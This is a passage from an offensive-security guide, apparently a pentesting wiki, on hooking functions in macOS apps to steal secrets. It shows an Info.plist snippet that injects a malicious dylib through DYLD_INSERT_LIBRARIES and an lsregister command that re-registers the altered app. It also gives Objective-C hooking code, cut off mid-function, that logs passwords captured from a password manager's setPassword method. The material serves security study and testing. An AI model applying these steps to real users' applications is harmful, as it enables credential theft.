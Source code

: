 ## Hooking Attack Methodology

In this page different ways to hook functions were discussed. However, they involved **running code inside the process to attack**.

In order to do that the easiest technique to use is to inject a [Dyld via environment variables or hijacking](../macos-dyld-hijacking-and-dyld\_insert\_libraries.md). However, I guess this could also be done via [Dylib process injection](macos-ipc-inter-process-communication/#dylib-process-injection-via-task-port).

However, both options are **limited** to **unprotected** binaries/processes. Check each technique to learn more about the limitations.

However, a function hooking attack is very specific, an attacker will do this to **steal sensitive information from inside a process** (if not you would just do a process injection attack). And this sensitive information might be located in user downloaded Apps such as MacPass.

So the attacker vector would be to either find a vulnerability or strip the signature of the application, inject the **`DYLD_INSERT_LIBRARIES`** env variable through the Info.plist of the application adding something like:

```xml
<key>LSEnvironment</key>
<dict>
    <key>DYLD_INSERT_LIBRARIES</key> 
    <string>/Applications/Application.app/Contents/malicious.dylib</string>
</dict>
```

and then **re-register** the application:

{% code overflow="wrap" %}
```bash
/System/Library/Frameworks/CoreServices.framework/Frameworks/LaunchServices.framework/Support/lsregister -f /Applications/Application.app
```
{% endcode %}

Add in that library the hooking code to exfiltrate the information: Passwords, messages...

{% hint style="danger" %}
Note that in newer versions of macOS if you **strip the signature** of the application binary and it was previously executed, macOS **won't be executing the application** anymore.
{% endhint %}

#### Library example

```objectivec
// gcc -dynamiclib -framework Foundation sniff.m -o sniff.dylib

// If you added env vars in the Info.plist don't forget to call lsregister as explained before

// Listen to the logs with something like:
// log stream --style syslog --predicate 'eventMessage CONTAINS[c] "Password"'

#include <Foundation/Foundation.h>
#import <objc/runtime.h>

// Here will be stored the real method (setPassword in this case) address
static IMP real_setPassword = NULL;

static BOOL custom_setPassword(id self, SEL _cmd, NSString* password, NSURL* keyFileURL)
{
    // Function that will log the password and call the original setPassword(pass, file_path) method
    NSLog(@"[+] Password is: %@", password);
    
    // After logging the password call the original method so nothing breaks.
```